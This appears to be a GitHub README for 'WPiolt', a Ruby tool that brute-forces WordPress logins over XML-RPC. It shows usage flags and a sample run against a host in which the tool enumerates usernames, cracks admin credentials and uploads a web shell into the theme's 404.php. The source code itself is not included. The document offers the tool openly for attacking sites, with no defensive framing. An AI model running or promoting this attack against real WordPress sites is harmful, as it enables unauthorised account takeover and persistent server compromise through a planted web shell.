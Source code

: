 #WPiolt

================================================================================================

WPiolt - Wordpress Bruteforce tool via XML-RPC. The basic version only provides limited functionalities.


Developer : Andy Yang
Version : 0.1.0
License : GPLv3

================================================================================================
RainMak3r@Could:~/Desktop# ruby WPiolt.rb  -h

 _    _ ______  _  _          
| |  | || ___ \(_)| |       | |  
| |  | || |_/ / _ | |  ___  | |_      
| |/\| ||  __/ | || | / _ \ | __|       
\  /\  /| |    | || || (_) || |_          Basic Version - 0.1 by Andy Yang
 \/  \/ \_|    |_||_| \___/ \__|          contactayang[AT]gmail[DOT]com
                                 
WPiolt - Wordpress Bruteforce tool via XML-RPC by Andy Yang

EXAMPLE USAGE:

     ./WPilot.rb  -t 'www.target.com' -d '/User/eve/dic.txt'
     ./WPilot.rb  -t '10.0.0.1/wordpress' -d '/User/eve/dic.txt'
    -t, --Target URL/IP              Wordpress target URL or IP
    -d, --Dictionary path            Dictionary file for password Bruteforce.
    -h, --help                       Display help

================================================================================================
Example of usage.
================================================================================================
RainMak3r@Could:~/Desktop#ruby WPilot.rb -t '192.168.0.11/wordpress' -d '/dic'

[Info]     Checking if the target is vulnerable........
[Info]     Target is vulnerable!!!
[Info]     Retreving usernames........
[Info]      Found username: admin
[Info]      Found username: Alice
[Info]      Found username: Bob
[Info]      Bruteforcing passwords ........
[Info]      Cracked Admin Creds: andy:1234567
[Info]      Uploading shell into 404.php..........
[DONE]      Please check a non existing post for the uploaded web shell


